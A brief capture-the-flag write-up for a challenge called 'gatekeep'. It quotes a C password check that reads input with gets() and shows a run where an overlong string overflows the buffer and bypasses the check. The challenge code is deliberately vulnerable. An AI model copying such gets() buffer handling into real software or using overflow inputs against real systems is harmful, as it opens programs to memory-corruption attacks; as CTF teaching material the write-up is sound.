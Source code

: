 # gatekeep

## Author of writeup

Pat Natali

## Challenge

> If I gaslight you enough, you won't be able to get my flag! :)
>
> ```
> nc lac.tf 31121
> ```
>
> Note: The attached binary is the exact same as the one executing on the remote server.

## Solution

The source code:

```
int check(){
    char input[15];
    char pass[10];
    int access = 0;

. . .
    
    printf("Password:\n");
    gets(input);
```

Due to the way this code is written, I would expect to be able to override `access` by providing over 25 characters to the input, because `gets()` does not respect the size of the memory buffer it puts values into.

```
$ ./gatekeep    
If I gaslight you enough, you won't be able to guess my password! :)
Password:
XXXXXXXXXXXXXXXXXXXXXXXXXXXX
I swore that was the right password ...
Guess I couldn't gaslight you!
flag would be here
```

It turns out that 29 'X' is the correct amount, but I am not sure why it's 4 more bytes than expected.
